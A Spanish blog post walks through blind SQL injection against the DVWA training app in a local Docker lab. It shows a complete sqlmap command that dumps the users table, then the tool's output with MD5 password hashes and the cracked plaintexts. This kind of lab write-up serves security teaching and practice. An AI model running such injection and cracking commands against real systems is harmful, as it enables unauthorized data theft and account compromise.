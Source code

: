 ```yaml
---
title: DVWA 
date: 2025-04-2 17:00:00 +0200
categories: [hacking, sqli] 
tags: [dvwa, sqli, sqlmap]     # TAG names should always be lowercase

image:
    path: https://github.com/digininja/DVWA/blob/master/dvwa/images/logo.png?raw=true
    alt: DVWA
---
```


## DVWA 

[https://github.com/digininja/DVWA](https://github.com/digininja/DVWA)

>Damn Vulnerable Web Application (DVWA) es una aplicación web PHP/MariaDB extremadamente vulnerable. Su objetivo principal es ayudar a los profesionales de la seguridad a poner a prueba sus habilidades y herramientas en un entorno legal, ayudar a los desarrolladores web a comprender mejor los procesos de seguridad de aplicaciones web y ayudar tanto a estudiantes como a profesores a aprender sobre seguridad de aplicaciones web en un entorno de clase controlado.

Ahora vamos a realizar un ejemplo de injección sql_blind con la herramienta **sqlmap**, para que todo sea automático he puesto el flag __--batch__
Para el ejercicio he montado el docker con el archivo docker del proyecto de DVWA. 

``` shell
pablo☠office sqlmap$ ./sqlmap.py --url "http://192.168.2.125:8090/vulnerabilities/sqli_blind?id=1&Submit=Submit"  --cookie="PHPSESSID=fl7f8c1lva3pup4adt7djg46q1;security=low" --data="id=1&Submit=Submit" -p id  --risk 3 --level 5 --dump --batch
```
La seguridad está en "low" y la cookie podemos copiarla del navegador. 
Al parecer el parámetro id supone una entrada no sanitizada y permite este tipo de inyección SQL que un adversario
puede utilizar para extraer los datos de la base de datos.
sqlmap incluye una opción que le permite identificar y crackear passwords en md5 e incluye su propio diccionario.

Aquí es cuando Sqlmap descubre que el parámetro id parece inyectable usando la técnica de __boolean-based blind__ 
``` shell
[21:49:58] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[21:49:58] [INFO] GET parameter 'id' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="User ID exists in the database.")
[21:49:59] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL' 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
```

El proceso continua e incluso se consiguen las passwords de los usuarios. 
``` shell
do you want to crack them via a dictionary-based attack? [Y/n/q] Y
[21:51:04] [INFO] using hash method 'md5_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/home/pablo/pentest/web/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[21:51:04] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] N
[21:51:04] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[21:51:04] [INFO] starting 4 processes 
[21:51:07] [INFO] cracked password 'abc123' for hash 'e99a18c428cb38d5f260853678922e03'                                                                                                                           
[21:51:09] [INFO] cracked password 'charley' for hash '8d3533d75ae2c3966d7e0d4fcc69216b'                                                                                                                          
[21:51:13] [INFO] cracked password 'letmein' for hash '0d107d09f5bbe40cade3de5c71e9e9b7'                                                                                                                          
[21:51:14] [INFO] cracked password 'password' for hash '5f4dcc3b5aa765d61d8327deb882cf99'                                                                                                                         
Database: dvwa                                                                                                                                                                                                    
Table: users
[5 entries]
+---------+---------+-----------------------------+---------------------------------------------+-----------+------------+---------------------+--------------+
| user_id | user    | avatar                      | password                                    | last_name | first_name | last_login          | failed_login |
+---------+---------+-----------------------------+---------------------------------------------+-----------+------------+---------------------+--------------+
| 3       | 1337    | /hackable/users/1337.jpg    | 8d3533d75ae2c3966d7e0d4fcc69216b (charley)  | Me        | Hack       | 2025-04-02 18:20:58 | 0            |
| 1       | admin   | /hackable/users/admin.jpg   | 5f4dcc3b5aa765d61d8327deb882cf99 (password) | admin     | admin      | 2025-04-02 18:20:58 | 0            |
| 2       | gordonb | /hackable/users/gordonb.jpg | e99a18c428cb38d5f260853678922e03 (abc123)   | Brown     | Gordon     | 2025-04-02 18:20:58 | 0            |
| 4       | pablo   | /hackable/users/pablo.jpg   | 0d107d09f5bbe40cade3de5c71e9e9b7 (letmein)  | Picasso   | Pablo      | 2025-04-02 18:20:58 | 0            |
| 5       | smithy  | /hackable/users/smithy.jpg  | 5f4dcc3b5aa765d61d8327deb882cf99 (password) | Smith     | Bob        | 2025-04-02 18:20:58 | 0            |
+---------+---------+-----------------------------+---------------------------------------------+-----------+------------+---------------------+--------------+

[21:51:20] [INFO] table 'dvwa.users' dumped to CSV file '/home/pablo/.local/share/sqlmap/output/192.168.2.125/dump/dvwa/users.csv'

```

Pues ya estaría. Te has pasado el ejercicio con un solo comando. Happy hacking!!!.